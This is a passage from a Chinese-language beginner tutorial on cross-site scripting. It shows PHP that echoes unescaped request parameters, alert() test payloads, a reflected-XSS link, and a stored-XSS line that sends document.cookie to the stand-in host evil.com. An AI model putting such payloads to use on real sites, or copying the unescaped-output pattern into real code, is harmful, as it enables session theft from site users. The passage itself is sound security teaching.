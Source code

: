 
## 📦 举个直观的例子

假设你的网站有一个评论功能，用户发表评论后会被显示出来。如果你直接把用户的评论内容插到 HTML 里，像这样：

```html
<p>评论内容：<?= $_GET['comment'] ?></p>
```

攻击者输入的评论是：

```html
<script>alert('你中招了');</script>
```

那浏览页面的用户就会看到一个弹窗。**这个脚本在别人浏览器里执行了！**

---

## 🧨 XSS 的三种类型（通俗解释）

### 1️⃣ 存储型 XSS（Stored XSS）

**攻击代码被“存储”在服务器上了**，比如存在数据库里，每次有用户访问页面时都会被加载并执行。

📌 举例：

攻击者发了一个恶意评论，内容是：

```html
<script>fetch('http://evil.com/steal?cookie=' + document.cookie)</script>
```

每个用户浏览这个评论时，都会把自己的 Cookie 发送给攻击者！

---

### 2️⃣ 反射型 XSS（Reflected XSS）

**攻击代码通过 URL 参数传递**，页面直接把参数“原样输出”，就中招了。

📌 举例：

某个搜索页面：

```html
<p>你搜索的是：<?= $_GET['q'] ?></p>
```

攻击者伪造一个链接：

```
https://example.com/search?q=<script>alert('XSS')</script>
```

用户点了这个链接，就执行了脚本。

---

### 3️⃣ DOM 型 XSS
